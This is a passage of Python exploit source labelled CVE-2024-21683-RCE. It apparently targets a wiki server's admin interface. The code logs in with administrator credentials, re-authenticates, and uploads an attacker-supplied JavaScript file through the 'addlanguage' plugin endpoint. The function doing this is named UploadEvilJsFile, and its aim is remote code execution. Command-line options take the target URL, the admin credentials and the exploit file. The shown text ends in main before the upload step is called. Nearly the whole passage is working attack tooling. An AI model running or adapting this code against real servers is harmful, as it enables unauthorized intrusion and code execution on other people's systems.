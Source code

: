 ```
    data = f"os_username={username}&os_password={password}&login=%E7%99%BB%E5%BD%95&os_destination=%2F"
    session.post(url=login_url, headers=headers, data=data, proxies=proxy, verify=False, timeout=20)

def DoAuthenticate(session, url, proxy, password, alt_token):
    login_url = url + "/doauthenticate.action"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = f"atl_token={alt_token}&password={password}&authenticate=%E7%A1%AE%E8%AE%A4&destination=/admin/viewgeneralconfig.action"
    session.post(url=login_url, headers=headers, data=data, proxies=proxy, verify=False, timeout=20)
def UploadEvilJsFile(session, url, proxy, jsFilename, jsFileContent, alt_token):
    url = f"{url}/admin/plugins/newcode/addlanguage.action"
    data = {
        "atl_token": alt_token,
        "newLanguageName": "test"
    }
    files = {
        "languageFile": (
        jsFilename, jsFileContent, "text/javascript")
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
    }
    session.post(url, headers=headers, data=data, files=files, verify=False, proxies=proxy, timeout=20)

def ParseArgs():
    parser = argparse.ArgumentParser(description="CVE-2024-21683-RCE")
    parser.add_argument("-u", "--url", type=str, help="target url to check, eg: http://192.168.198.1:8090", required=True)
    parser.add_argument("-p", "--proxy", type=str, default="http://127.0.0.1:8083", help="proxy url, eg: http://127.0.0.1:8083", required=False)
    parser.add_argument("-au", "--admin-username", type=str, help="The username of the user who is in the Administrators group", required=True)
    parser.add_argument("-ap", "--admin-password", type=str, help="The password of the user who is in the Administrators group", required=True)
    parser.add_argument("-f", "--file", type=str, help="exploit file", default="exploit.js", required=True)
    parser.add_argument("-n", "--name", type=str, help="newLanguageName", default="test", required=True)
    return parser.parse_args()

if __name__ == '__main__':
    args = ParseArgs()
    if not args.proxy:
        proxy = {}
    else:
        proxy = {
            "http": args.proxy,
            "https": args.proxy
        }
    session = requests.session()
    jsfn = os.path.basename(args.file)
    jsfc = open(args.file, "r", encoding="utf-8").read()
    LoginAsAdministrator(session, args.url.strip("/"), proxy, args.admin_username, args.admin_password)
```